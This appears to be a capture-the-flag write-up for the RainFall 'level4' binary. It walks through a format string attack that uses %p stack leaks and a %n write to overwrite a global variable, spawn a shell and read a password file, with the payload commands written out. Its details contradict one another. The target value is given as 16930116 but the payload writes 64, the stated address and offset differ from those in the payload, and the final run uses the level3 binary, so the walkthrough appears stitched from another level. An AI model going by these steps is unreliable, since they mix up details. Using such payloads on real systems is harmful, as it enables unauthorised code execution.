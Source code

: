 # Level4

## Objective

The goal of Level 4 is to escalate from `level4` to `level5` by exploiting a format string vulnerability in the `level4` binary. By the end, you should be able to read the password for `level4`.

---

## Step 1: Examine the Binary

After switching to `level4`:

```bash
level4@RainFall:~$ ls
level4
```

Running the binary:

```bash
level4@RainFall:~$ ./level4
Hello
Hello
```

The program simply echoes back what we type, but suspiciously uses `printf()` directly with user input.

---

## Step 2: Investigate with `ltrace`

```bash
level4@RainFall:~$ ltrace ./level4
printf("test") = 4
```

We see that `printf()` is called **without a format string**, which means our input is treated as the format string itself.

---

## Step 3: Test with Format Specifiers

```bash
level4@RainFall:~$ ./level4
%p %p %p %p
0xbffff744 0xb7fd0ff4 0x80484b7 0x25207025
```

We can dump stack values using `%p`. This confirms a **format string vulnerability**.

I'm sure you want to understand whats the point here. The `%n` reads the input and write the number of bytes he read right after.
Yes, if we make him read a sequence of chosen numbers he will possibly over-write the number corresponding. (to an adress maybe ?)

---

## Step 4: Lets try to disass functions.

We found two functions, `p()` and `n()`.
`p()` uses printf,
`n()` - reads our input,
      - calls `p()`,
      - gives a value to m (a global variable empty so far) [0x8049810]
      - compare m with 0x1025544
      - if m != jump to an exit
      - else run `/bin/sh`

The goal here is clear give m the right value to pass the cmp and execute the syscall.

---

## Step 5: So what's the expected input?

We want to overwrite a global variable called `m` that controls access to the target function. The program wants m to be equal to `16930116` in decimal.

Therefore, our goal is to use `%n` to write the value `16930116` into the memory address of `m`.

---

## Step 6: Find the ofset

```bash
python -c 'print "aaaa" + "%x" + 15' > /tmp/exploit
cat /tmp/exploit | ./level4
```
The ofset is at the 12th position.

We inject the address of `m` into the input, followed by a format string to write `64` bytes before using `%n`:

```bash
python -c 'print "\x8c\x98\x04\x08" + "%60u" + "%4$n"' > /tmp/exploit
```

Explanation:

* `\x8c\x98\x04\x08` → address of `m` in little-endian.
* `%60u` → prints 60 characters.
* `%4$n` → writes the number of printed characters (60 + 4 = 64) into the 4th argument on the stack (our `m` address).

---

## Step 7: Run Exploit

```bash
level3@RainFall:~$ ./level3 < /tmp/exploit
whoami
level4
cat /home/user/level4/.pass
4c7e7b3068693b3c1a4d3ff39f0c9ca78eb2d2f63bdba4a1d2a8e1da7544f44e
```

We successfully overwrite `m` and trigger the hidden shell.

---

## Step 8: Summary

* **Vulnerability:** format string bug (`printf(user_input)`).
* **Offset:** writing with `%n` directly to the global variable `m`.
* **Target:** set `m = 64` to unlock `system("/bin/sh")`.
* **Outcome:** gained a shell as `level4` and retrieved the password.

> With this, you can `su level4` using the password.


